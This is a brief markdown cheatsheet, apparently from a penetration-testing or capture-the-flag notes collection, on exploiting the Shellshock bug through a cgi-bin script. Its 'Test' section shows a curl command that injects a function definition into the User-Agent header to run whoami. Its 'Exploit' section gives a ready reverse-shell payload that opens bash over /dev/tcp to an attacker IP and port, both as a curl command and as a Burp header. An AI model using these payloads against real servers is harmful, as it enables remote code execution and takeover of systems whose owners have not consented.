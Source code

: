 ```yaml
---
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/shell-shock]
img_path: /Cheatsheet/Web/Shellshock via cgi-bin/images
---
```


# Test
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<MACHINE-IP>/cgi-bin/test.cgi
```

# Exploit
- Obtain shell
	```
	curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1' http://10.10.234.83/cgi-bin/test.cgi

	#Burp:
	User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1
	```

# Some Example
- [[0day#Exploiting Shell Shock Reverse Shell User flag]]



